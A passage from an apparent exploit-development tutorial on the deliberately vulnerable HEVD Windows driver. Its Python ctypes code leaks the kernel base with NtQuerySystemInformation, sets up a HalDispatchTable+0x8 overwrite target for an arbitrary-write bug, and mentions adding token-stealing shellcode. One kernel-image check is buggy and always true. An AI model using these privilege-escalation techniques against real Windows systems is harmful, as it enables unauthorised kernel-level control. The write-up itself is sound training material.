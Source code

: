 We then shorten the returned `sys_info` string by cutting off the first 8 bytes we just used and then interating through the string casting each `296` byte chunk as an instance of our class. You can see that we declare a `counter` variable which will increment each iteration by the size of our class (`296` bytes). The loop does the following:
+ While we haven't iterated through all of our returned modules (by getting the number of returned modules with `handle_num.value`),
+ create a temporary `SYSTEM_MODULE_INFORMATION` instance called `tmp`,
+ create a string buffer in a `0` to `296` byte chunk that contains one complete returned struct,
+ move that string buffer into our temporary `tmp` struct.
You can see all of this happening here: 
```python
counter = 0
    for x in range(handle_num.value):
        tmp = SYSTEM_MODULE_INFORMATION()
        tmp_si = create_string_buffer(sys_info[counter:counter + sizeof(tmp)])
        memmove(addressof(tmp), tmp_si, sizeof(tmp))
        if "ntoskrnl" or "ntkrnl" in tmp.ImageName:
            img_name = tmp.ImageName.split("\\")[-1]
            print("[*] Kernel Type: {}".format(img_name))
            kernel_base = hex(tmp.ImageBase)[:-1]
            print("[*] Kernel Base: {}".format(kernel_base))
            return img_name, kernel_base
        counter += sizeof(tmp)
```

We then check the `ImageName` member of the struct, and if it's a match for the kernel images we want to keep track of, we progress. We grab the name and the base address and return them. Function over, we just massively improved our code from the x86 version.

I'm not going to paste the entire function this time; however, in the next function we need to call both `LoadLibraryA` and `GetProcAddress` so that we can ultimately calculate the location of our target HDT function pointer. In order for those APIs to behave properly, we have to use the [`restype`](https://docs.python.org/3/library/ctypes.html) utility in `ctypes` for us to change the return type of a function. We do so accordingly to work with our 64-bit OS:
```python
kernel32.LoadLibraryA.restype = c_uint64
kernel32.GetProcAddress.argtypes = [c_uint64, POINTER(c_char)]
kernel32.GetProcAddress.restype = c_uint64
```

Everything else works pretty much the same, except our `target_hal` variable on this one will be the `HalDispatchTable+0x8` since we're dealing with 8-byte pointers now (previously, it was `HalDispatchTable+0x4`). You would think now, all we do is just paste in the Token Stealing shellcode for x64 we already used in the stack overflow post and be on our merry way; however, that was not the case. As of right now, after inserting our shellcode from the last x64 exploit we performed, our code looks like this in all: 
```python
import ctypes, sys, struct
from ctypes import *
from ctypes.wintypes import *
from subprocess import *

kernel32 = windll.kernel32
ntdll = windll.ntdll

# HEVD!TriggerArbitraryOverwrite instructions: 
# mov     r11,qword ptr [rbx]
# mov     qword ptr [rdi],r11

def base():
    
    print("[*] Calling NtQuerySystemInformation w/SystemModuleInformation")
    sys_info = create_string_buffer(0)
    sys_info_len = c_ulong(0)

    ntdll.NtQuerySystemInformation(
```
